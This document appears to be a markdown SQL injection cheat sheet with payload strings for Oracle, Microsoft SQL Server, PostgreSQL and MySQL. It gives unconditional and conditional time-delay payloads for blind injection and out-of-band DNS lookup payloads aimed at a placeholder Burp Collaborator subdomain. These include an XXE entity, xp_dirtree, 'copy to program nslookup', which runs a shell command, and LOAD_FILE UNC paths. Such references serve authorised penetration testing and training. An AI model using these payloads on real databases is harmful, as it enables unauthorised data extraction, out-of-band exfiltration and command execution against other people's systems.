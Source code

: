 ## Time delays
*You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.*

| Type | String |
| --- | --- |
| Oracle   | ` dbms_pipe.receive_message(('a'),10) ` |
| Microsoft |  ` WAITFOR DELAY '0:0:10' ` |
| PostgreSQL | ` SELECT pg_sleep(10) `|
| MySQL | ` SELECT SLEEP(10) `|

#

## Conditional time delays
*You can test a single boolean condition and trigger a time delay if the condition is true.*

| Type | String |
| --- | --- |
| Oracle   | ` SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'\|\|dbms_pipe.receive_message('a',10) ELSE NULL END FROM dual `|
| Microsoft |  ` IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10' ` |
| PostgreSQL | ` SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END `|
| MySQL | ` SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a') `| 

#

## DNS Lookup
*You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use Burp Collaborator to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.*

| Type | String |
| --- | --- |
| Oracle   | The following technique leverages an XML external entity [XXE](https://portswigger.net/web-security/xxe) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence: <br>`SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`<br> The following technique works on fully patched Oracle installations, but requires elevated privileges: <br> `SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')` |
| Microsoft |  `exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a' ` |
| PostgreSQL | `copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN' `|
| MySQL | The following techniques work on Windows only <br> `LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a') SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'`| 

#

#
## More coming soon
